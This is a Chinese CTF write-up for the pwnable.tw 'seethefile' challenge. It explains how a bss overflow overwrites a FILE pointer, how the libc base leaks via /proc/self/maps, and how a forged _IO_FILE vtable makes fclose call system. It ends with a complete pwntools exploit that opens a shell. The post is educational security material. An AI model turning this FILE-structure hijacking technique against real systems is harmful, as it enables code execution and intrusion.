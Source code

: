 ```yaml
---
title: 和媳妇一起学Pwn 之 seethefile
date: 2020-04-03 00:00:00
categories:
- CTF/Pwn
tags: pwnable.tw  _IO_FILE
---
```


> 漏洞点是：存在一个位于bss段的变量输入溢出，溢出后可以覆盖一个IO_FILE结构体的指针。

> 利用方式：利用题目读取文件的功能通过linux的proc伪文件系统泄露libc基址，然后溢出IO_FILE的指针指向一个伪造IO_FILE结构体，并且根据libc基址伪造虚表。当伪造的结构体被fclose使用时，虚函数将被调用，即可getshell。

- 题目地址：[https://pwnable.tw/challenge/#9](https://pwnable.tw/challenge/#9)

## 检查

```bash
➜  file seethefile
seethefile: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=04e6f2f8c85fca448d351ef752ff295581c2650d, not stripped
➜  checksec seethefile
[*] '/Users/Desktop/pwn/pwnable/seethefile/seethefile'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

32位程序，除了NX，剩下的保护没开，没去符号表。

## 漏洞点

程序本身的功能是可以打开，读取，关闭文件，还可以将读取的内容打印出来。不过一次只能读取0x18F个字节，而且不能读flag文件。输入文件名和读取文件内容的地方都做好了边界控制，没有什么问题，不过在退出时：

```c
case 5:
printf("Leave your name :");
__isoc99_scanf("%s", &name);
```

这里没有检查输入name的长度，导致可以覆盖name后面的内存。位于bss段的name后面就是那个文件的fp指针，之后又去调用了fclose并传入了这个fp指针，这里就是漏洞点所在。

## `_IO_FILE`

在利用之前，我们先来学习`_IO_FILE`。不过在学`IO_FILE`之前，我们先了解两个函数`open`和`fopen`：

- [总结open与fopen的区别](https://www.jianshu.com/p/5bccc0a0bbbf)
- [C fopen vs open](https://stackoverflow.com/questions/1658476/c-fopen-vs-open)
- [Linux（C/C++）下的文件操作open、fopen与freopen](https://blog.csdn.net/qq_38374864/article/details/72903920)
- [C语言中open与fopen的的解释和区别](https://blog.csdn.net/LEON1741/article/details/78091974)
- [C语言中文件描述符和文件指针的本质区别](https://blog.csdn.net/xzhKSD123/article/details/96167556)

|          | 文件描述符（低级IO）  | 文件流/文件指针（高级IO）       |
| -------- | --------------------- | ------------------------------- |
| 标准     | POSIX                 | ANSI C                          |
| 层次     | 系统调用                | libc                            |
| 数据类型 | int                   | FILE *                          |
| 函数     | open/close/read/write | fopen/fclose/fread/fwrite/fseek |

所以要学习的`_IO_FILE`就是fopen这套libc实现的高级IO操作相关的一个结构体`_IO`是值其所在是libc的IO库中，所以说的FILE结构体值指的就是`_IO_FILE`，在stdio.h的头文件中有typedef：

> /usr/include/stdio.h

```c
struct _IO_FILE;
typedef struct _IO_FILE FILE;
typedef struct _IO_FILE __FILE;
extern struct _IO_FILE *stdin;		/* Standard input stream.  */
extern struct _IO_FILE *stdout;		/* Standard output stream.  */
extern struct _IO_FILE *stderr;		/* Standard error output stream.  */
```

至此我们可以开心的学习`_IO_FILE`了

- [FILE Structure Description](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/introduction-zh/)
- [_IO_FILE利用思路总结](https://b0ldfrev.gitbook.io/note/pwn/iofile-li-yong-si-lu-zong-jie)
- [_IO_FILE部分源码分析及利用](http://dittozzz.top/2019/04/24/IO-FILE%E9%83%A8%E5%88%86%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90%E5%8F%8A%E5%88%A9%E7%94%A8/)
- [IO FILE 之劫持vtable及FSOP](http://blog.eonew.cn/archives/1103)
- [IO file结构在pwn中的妙用](https://xz.aliyun.com/t/6567)

一句话概括为啥要研究`_IO_FILE`：**libc实现的文件流机制中存在可以被改写的函数指针**

## 利用

所以本题的思路很清晰了，通过改写bss段的FILE指针到我们伪造的结构体上，并布置好虚表即可getshell。

### 泄露libc

本题泄露libc的基址实在是没啥技术含量，因为直接能读文件，所以直接利用linux的proc伪文件系统读取`/proc/self/maps`即可获得libc基址，不过本地和远程的布局可能有些许的不同，因为一次最多只能读取0x18f个字节，所以可能需要读两次才能读到libc的基址。

### 伪造IO_FILE结构体及虚表

因为在退出的时候，我们可以无限写bss段往后的内存，所以我们把构造的fake FILE也放到这里，并且bss段地址是已知的，这样也才能提前计算fake FILE的地址，以便覆盖程序的fp指针。并且本题给的libc版本为2.23,libc2.24以下的版本没有对虚表进行检查，所以直接伪造即可。当然就算存在检查也是可以想办法绕过的。


```python
fakeFILE = 0x0804B284
payload  = 'a'*0x20
payload += p32(fakeFILE)
payload += p32(0xffffdfff)
payload += ";$0"+'\x00'*0x8d
payload += p32(fakeFILE+0x98)
payload += p32(system_addr)*3
```

### 完整exp

```python
from pwn import *

context(arch='i386',os='linux',log_level='debug')
myelf  = ELF("./seethefile")
libc   = ELF("./libc_32.so.6")
io     = remote("chall.pwnable.tw",10200)

sla          = lambda delim,data       :io.sendlineafter(delim, data) 
openfile     = lambda name :  (sla("choice :","1"),sla("see :",name))
readfile     = lambda      :  (sla("choice :","2"))
showfile     = lambda      :  (sla("choice :","3"))
leave        = lambda name :  (sla("choice :","5"),sla("ame :",name))

# leak libc
openfile("/proc/self/maps")
readfile()
showfile()
io.recvuntil("[heap]\n")
libc_addr = int(io.recv(8),16)+0x1000
system_addr = libc_addr +libc.symbols['system']

# make fake file
fakeFILE = 0x0804B284
payload  = 'a'*0x20
payload += p32(fakeFILE)
payload += p32(0xffffdfff)
payload += ";$0"+'\x00'*0x8d
payload += p32(fakeFILE+0x98)
payload += p32(system_addr)*3

# getshell
leave(payload)
io.interactive()
```